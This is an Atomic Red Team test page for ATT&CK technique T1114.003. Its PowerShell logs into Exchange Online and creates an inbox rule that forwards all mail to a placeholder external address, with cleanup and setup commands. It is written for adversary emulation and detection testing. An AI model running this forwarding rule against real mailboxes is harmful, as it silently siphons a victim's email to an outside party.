 # T1114.003 - Email Collection: Email Forwarding Rule
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)
<blockquote>Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email-forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)


<br/>

## Atomic Test #1 - Office365 - Email Forwarding
Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365


**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | |
| password | office-365 password | string | |
| rule_name | email rule name | string | Atomic Red Team Email Rule|
| forwarding_email | destination email addresses | string | Atomic_Operator@fakeemail.aq|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "#{forwarding_email}"
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```




<br/>
